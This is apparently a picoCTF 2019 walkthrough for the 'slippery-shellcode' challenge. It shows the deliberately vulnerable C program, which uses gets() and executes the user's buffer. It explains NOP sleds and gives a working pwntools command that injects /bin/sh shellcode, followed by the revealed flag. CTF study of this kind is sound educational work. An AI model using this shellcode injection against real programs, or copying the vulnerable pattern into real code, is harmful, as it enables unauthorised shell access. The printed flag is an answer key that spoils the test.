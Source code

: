 # slippery-shellcode
200 points

### Description
*"This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0 on the shell server. Source."*

### Solution
If we try to overflow this buffer with any number of characters, it doesn't change the program behavior. However, the program does tell us that after we give it input, it executes from a random location. This still isn't much to go off of, so we'll have to take a step back and look at the source code.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

`buf` is a 512-byte buffer that is used to get the user's input and print it back out in `vuln`. After `vuln` returns, a randomly chosen instruction will be executed from the first 256-bytes of `buf`. This is random every time, so unless you want to try it around 256 times with the same sized input, you'll want to use **NOP sledding**. 

A **NOP instruction** is simply an instruction that does nothing that affects the program, and so the instruction pointer advances to the next instruction with nothing really happening. A NOP sled is when a chain of NOP instructions is used before the actual payload shellcode to ensure that if the return address is changed to the addresses of *any* of the NOP instructions, then the program will simply keep performin NOP instructions until it hits the shellcode.

There are a few different instructions that technicaly do nothing in the context of the program and so they can be used as NOP instructions, but assembly compilers do provide an actual `nop` instruction. This has a hex value of `\x90`.

We know the program will execute some random insutruction in the first half of `buf`, so we just need to fill the first half of the buffer with NOP instructions, then place our shellcode. Remember, we can use [pwntools](http://docs.pwntools.com/en/latest/) to generate the needed assembly code and assemble it to shellcode. You can also check out [shell-storm](http://shell-storm.org/shellcode/) for lots of different shellcode.
```
$ (python2 -c "from pwn import *; print('\x90'*256 + asm(shellcraft.linux.sh()))"; cat) | ./vuln 
Enter your shellcode:
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                                                                                                          X
Thanks! Executing from a random location now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
```
**Note**: Don't forget that we use `cat` in our command to keep an open input stream with `vuln` so that we can interact with the shell that we spawn.

And now you have the flag.

<details>
  <summary>Flag:</summary>
  picoCTF{sl1pp3ry_sh311c0d3_0fb0e7da}
</details>

[Next Problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%236%20-%20OverFlow%202.md)

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
